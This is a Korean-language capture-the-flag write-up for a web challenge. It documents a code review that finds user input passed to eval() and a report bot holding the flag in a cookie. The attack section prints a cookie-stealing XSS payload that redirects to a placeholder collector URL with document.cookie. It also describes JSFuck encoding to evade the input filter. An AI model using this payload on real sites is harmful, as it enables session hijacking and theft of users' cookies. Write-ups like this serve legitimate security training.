

<h1>1. 웹페이지 접속</h1>
 

 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

대상 웹사이트 메인
Baby's music (1)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Baby's music (2)
 

nope! 이라는 메시지가 출력되었다.

 

대상 웹사이트 메인
Baby's music (3)
 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Saved (1)
 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

대상 웹사이트 메인
Saved (2)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Go to Report (1)
 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Go to Report (2)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 

코드 분석
 

대상 웹사이트 메인
코드 분석 (1)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

대상 웹사이트 메인
코드 분석 (2)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

대상 웹사이트 메인
코드 분석 (3)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

대상 웹사이트 메인
코드 분석 (4)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 

공격 시나리오
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 

 

공격 실행
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 

',location.href="request_url/"+document.cookie,'
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 

eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
 

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 

eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

대상 웹사이트 메인
공격 실행 (1)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (2)
 

프록시 도구에서 스크립트를 삽입한다.

 

대상 웹사이트 메인
공격 실행 (3)
 

발급받은 id 값을 확인한다.

대상 웹사이트 메인
공격 실행 (4)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (5)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

대상 웹사이트 메인
공격 실행 (6)
